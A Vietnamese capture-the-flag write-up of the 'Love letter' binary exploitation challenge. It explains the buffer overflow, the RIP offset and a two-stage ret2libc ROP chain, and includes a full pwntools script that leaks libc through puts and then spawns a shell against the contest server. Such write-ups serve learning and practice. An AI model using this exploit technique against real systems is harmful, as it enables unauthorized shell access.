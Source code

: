 # Love letter
file: [main](https://github.com/wan-hyhty/CTFs_competition/blob/main/Securinet%20Valentine/source/main)  
#### Hình ảnh ida  
![image](https://user-images.githubusercontent.com/111769169/219405773-390fbd80-cfbc-4392-ad58-fdb303480368.png)  
![image](https://user-images.githubusercontent.com/111769169/219406127-96373797-4cb8-419b-b863-2bc2e2f3643a.png)  
![image](https://user-images.githubusercontent.com/111769169/219406236-27dd9ada-2005-47be-8986-92156db55fe8.png)  
#### Chương trình hoạt động  
> Đầu tiên chương trình nhảy vào hàm loveletter, ta chú ý chỗ while sau, đại loại chương trình sẽ cho chúng ta nhập vào biến v2 
> ![image](https://user-images.githubusercontent.com/111769169/219407499-01d77b66-b3e3-4e49-867a-aa3db9ab050b.png)
___  
> Sau đó ở hàm doubt, nếu ta trả lời khác 'Y' thì chương trình sẽ cho nhập size của v2, và chỉ dưới 250 kí tự, nên ban đầu em hơi lú chỗ này  
> ![image](https://user-images.githubusercontent.com/111769169/219408728-9fa83627-0b11-45f3-8ed8-f94373b5ac4f.png)  
> Sau khi được anh Trí hint thì ta thấy nếu ta trả lời là 'Y' (không thực hiện if) thì biến v2 có thể nhập tuỳ ý, nhưng lúc chạy chương trình thì giá trị v1 là 0 nên không thể nhập cho biến v2. Vấn đề bây giờ là làm sao để OW được v1.
___  
> ta để ý địa chỉ ở các biến thì thấy ![image](https://user-images.githubusercontent.com/111769169/219410942-4fa2201f-5b30-471e-961e-d70cfe2a3a05.png) ![image](https://user-images.githubusercontent.com/111769169/219411007-af0d3399-62ee-4086-baba-85bedb823985.png)  
> thì thấy nếu ta nhập đủ 6969byte ở biến v2 hàm loveletter thì có thể OW giá trị v1 hàm doubt, offset v2 và v1 là 244  
> Tuy nhiên do không có hàm thực thi system mà chỉ có /bin/sh lúc nà em chỉ đoán là libc (do ban đầu file có canary), và sau khi được anh Quý hint thì chắc chắn là leak libc 
___ 
> do em chỉ leak được libc còn lúc đưa hàm system thì lỗi EOF =))  
> Sau khi xin được file script thì chúng ta được như sau  
___
```python
from pwn import *

exe = ELF('main_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
    gdb.attach(p, gdbscript='''
    b*0x00000000004013ba

    b*0x0000000000401388
    
    c
    ''')
    input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.LOCAL:
    p = process(exe.path)
else:
    p = remote('loveletter.securinets.tn', 4040)

# GDB()
##################################
### Stage 1: Leak libc address ###
##################################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    pop_rdi, exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'],
    )
sa(b'now.\n', payload)
p.recvuntil(b'friend!\n')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['puts']
info("Libc base: " + hex(libc.address))

##########################
### Stage 2: Get shell ###
##########################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    0x000000000040101a,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym['system']
    )
sa(b'now.\n', payload)

p.interactive()
```
# Phân tích script  
![image](https://user-images.githubusercontent.com/111769169/219415578-c22f2804-97ad-4b0b-9fbb-75ab0d46e296.png)  
![image](https://user-images.githubusercontent.com/111769169/219414568-52ec4c12-0944-4f7b-9124-39e526a8e5fa.png)  
> ta input đủ 6969 để OW biến v1 hàm doubt  
___
![image](https://user-images.githubusercontent.com/111769169/219416198-056c37cc-4afb-4c8b-8181-26ac29d58353.png) 
![image](https://user-images.githubusercontent.com/111769169/219416439-8f18a7a6-20c0-4bb9-8241-c6f351c09cf2.png)  
> ta nhập 264byte để OW đến địa chỉ rip (em đã tìm offset rip)   
> ![image](https://user-images.githubusercontent.com/111769169/219416972-707cd8d3-ffbb-4b35-a30b-a7fe2d76feb1.png)  
> Sau đó trong flat() thì set thanh rip = là got@put và thực thì hàm put, để leak được file libc, sau đó quay về main
___
![image](https://user-images.githubusercontent.com/111769169/219417932-fa686178-6ecd-49ca-98e9-90ba49b03023.png)
> tính base của libc
___
> ta thực hiện lại lần hai chương trình và đẩy hàm system vào
![image](https://user-images.githubusercontent.com/111769169/219418602-1513688e-6841-4c30-bee9-fced04860c5d.png)
> ở đây địa 0x40101a được thêm vào để khắc phục lỗi xmm1 (lúc em làm thì em hum có dòng này =)))
> em đã thử không thêm địa chỉ này mà nhảy sâu vào hàm system nhưng vẫn không khắc phục được lỗi xmm1
___
#### Tổng kết sai sót
Không theo dõi thông báo giải và lúc được biết có file mới thì vẫn giải trên file cũ. Kết quả là file libc khác với server  
Cần cải thiện quá trình debug.  
#### Kiến thức mới
Thay vì ta set các địa chỉ như này  
![image](https://user-images.githubusercontent.com/111769169/219421279-d0561928-8d27-4c5b-8454-32e98c1eb4d5.png)  
___
Thì hàm flat() đại loại sẽ pack() các dữ liệu mình vào thay vì p64()
![image](https://user-images.githubusercontent.com/111769169/219421953-30160aa1-251b-46ee-a5fc-f375dab9b0b7.png)

# Gift shellcode
